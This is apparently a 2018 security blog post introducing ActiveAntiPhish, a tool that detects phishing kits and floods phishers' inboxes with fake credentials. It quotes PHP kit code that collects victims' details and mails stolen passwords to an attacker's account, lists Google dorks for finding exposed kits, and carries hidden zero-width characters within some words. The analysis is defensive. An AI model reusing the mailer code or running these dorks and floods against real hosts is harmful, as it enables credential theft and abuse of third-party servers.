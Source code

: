 ```yaml
---
layout: post
title: ActiveAntiPhish - Protecting Stolen Credentials Using Saturation
author: Chad Baxter
date: 2018-06-16
tags: ["phishing", "databases", "security", "phishkits"]
---
```


<h3>Background</h3>

Over the past week I've started a new project involving phishing kits. These nasty little things are usually zip files that a hacker has paid for on an underground website or forum. They take many forms and are used to phish for many different​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ types of credentials. Most phishers target the end user by sending an email that looks like it comes from the company with which they have an account when in fact the link in the email is a link to a phishing kit.

These kits are all created in PHP and all have the same coding style. It seems the underground phishing community has a standard they think is best which they follow faithfully. Because there are _thousands_ of different versions of these kits I thought it would be hard​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ to write a good YARA rule to detect them. Turns out this "tried and true" format persists across almost 90% of them.

With [ActiveAntiPhish](https://www.github.com/LogoiLab/ActiveAntiPhish) my goal is to create an application that allows for easy detection of phishing kits found on your servers as well as those that show up in your emails. If you were to somehow accidentally input your​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ credentials into a phishing kit ActiveAntiPhish's goal is to make it really hard for the phisher to use those credentials.

<h3>PhishKit Design</h3>

A phishing kit is commonly comprised of three parts, the _index_, the _blocker_, and the _mailer_.

<h4>The Index</h4>

The index page is usually a cloned page of the target website with the form fields changed to point to the _mailer_. For simple accounts these files are generally single page in style with a redirect to the official site. For banking phishkits the _index_ may be three to four separate pages for grabbing things like routing number, account number, pins, credit card info, and more.

<h4>The Blocker</h4>

Copy-pasting is virulent in the phishing community. The blocking script is the most common code among phishkits. This simple PHP script uses things like headers and user agent strings to determine if the computer visiting the page is a bot. The most commonly blocked bots are those by security companies and anti-phishing efforts like [PhishTank](https://phishtank.com/). Often phishers block entire IP ranges of countries they do not want credentials from. These vary based on the phisher.

<h4>The Mailer</h4>

This chunk of code is the main interest of ActiveAntiPhish as it is what exfiltrates stolen user info. It commonly has four parts with another debug-like part that shows up occasionally.

The first part gathers info about the user such as IP, country of origin, and User Agent string. An example of this section can be found here:

```php
$country = visitor_country();
$ip = getenv("REMOTE_ADDR");
$_SESSION['UserName'] = $_POST['UserName'];
$port = getenv("REMOTE_PORT");
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate=date("D M d, Y g:i a");
```

`visitor_country()` in this case is a function that uses publicly available geolocation APIs to get the victim's country of origin.

The second part creates the log, this compiles all of the gathered info including the stolen credentials into a multi-line PHP string. This log contains lots of identifiable strings and is usually what ActiveAntiPhish uses to identify the _mailer_. An example log section:

```php
$message .= "-----------  ! +Citi LOGIN ! xDD+ !  -----------\n";
$message .= "-----------  ! +Account infoS+ !  -----------\n";
$message .= "Email Address        : ".$_POST['username']."\n";
$message .= "Password               : ".$_POST['passwd']."\n";
$message .= "IP Address             : ".$ip."\n";
$message .= "-----------  ! +nJoY+ !  -----------\n";
```

Phishers like to tag their logs for an unknown reason. These tags are very identifiable. The structure of dashes with tags in the middle is common among all _mailers_. The YARA rules currently in use by ActiveAntiPhish trigger on this format as well as unique tags.

The third part is where the _mailer_ gets its name. It composes the headers and addresses to send an email to a throwaway account that the phisher controls. It looks a little something like this:

```php
$send = "REDACTED@gmail.com";
$subject = "Office365 logs xD $ip";
$headers = "From:  El Patr0n<xCoNsoLe@REDACTED.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
```

As you can see there are a lot of unique strings here, in fact phishers seem to like 1337SpEaK. This makes it easy to detect.

The fourth part is often the redirect. This is an attempt to make the phishing page look legit by either logging you into or forwarding you on to the homepage of the impersonated site:

```php
header("Location: https://login.microsoftonline.com/");
```

This part of the _mailer_ is only helpful in identifying phishkits when used in conjunction with the above indicators.

The fifth and optional part is usually used to debug the mailer or is used as a fallback in case the throwaway account gets banned. It creates a local file and writes the log that would have been sent via email to the file. Phishkits that do this help us better understand who is being targeted as usually the log files are publicly readable. This allows me to contact those affected, especially those who had their corporate or university email stolen. The fallback option looks something like this:

```php
$handle = fopen("script.txt", "a");
fwrite($handle, $message);
fclose($handle);
```

<h3>PhishKit Collection</h3>

The method I use for gathering phishkits is usually a list of Google dorks. [PhishTank](https://phishtank.com/) is a good source if you're willing to hunt. Things to look for when hunting for phishkits are open directories with odd file and folder names. For example, here is a Google dork for Microsoft phishkits:

```
intitle:"Index of" insite:"onedrive" ".zip"
```

Once you find one you can continue to find more by using filenames you find to be common. Another common Microsoft phishkit dork:

```
intitle:"Index of" insite:"m1cr0" ".zip"
```

These dorks work because of the way phishers​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ exploit vulnerable web servers. Often times a phisher finds a way of uploading a PHP webshell, this can be through poorly implemented upload pages or exploits (looking at you revslider). They then use the webshell to upload a zip file of the phishkit. They later extract the zip file and their kit is ready to go. Most phishers forget to delete the zip file after they're done. This allows us to download a copy of their phishkit. We now know how to interact with their _mailer_ script which allows us to automate saturation of the phisher's email account.

<h3>Saturation</h3>

Most throwaway accounts are GMail accounts the reason for this is unknown. But this allows us to make some educated gues​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ses as to the limits of the account. GMail only allows its users to receive about 60 emails per minute (or an email a second). ActiveAntiPhish will be able to saturate the phisher's account with ease simply by calling the _mailer_ script. It is not known how GMail handles email flooding. But we can assume the server sending the email gets banned when it reaches the daily limit. That's 1 email a second, for every minute of 24 hours or __86,400__ emails. Once we reach this point the GMail documentation is very clear that the server is banned for 24 hours for the first offense.

This is important because if the phisher does not have a fallback email or logfile they have lost the ability to collect logs for the day while also having their inbox full of fake credentials. This would​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ give a targeted company or individual time to contact webhosts and domain registrars to get the phishing page taken down.

The whole point of saturation is to increase the noise in the signal to noise ratio. This makes it difficult for a phisher to verify stolen credentials, making it very likely for them to just abandon that email account. Because the fake traffic is generated by the site wit​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿h the _mailer_ the computer running ActiveAntiPhish is not likely to get banned.

<h3>Closing</h3>

The indicators of compromise that can be gleaned from phishkits allow us to build robust YARA rules for detecting their p​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿resence on our networks. The rules used by ActiveAntiPhish can be found in the repo here: [phishkit.yar](https://cpcde.page.link/aapr).

ActiveAntiPhish is still under heavy development and is currently in the research phase. Any contributions are welcome. You ​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿can find the repo [HERE](https://cpcde.page.link/aap)

<h3>References</h3>

[https://support.google.com/a/answer/1366776?hl=en](https://support.google.com/a/answer/1366776?hl=en)
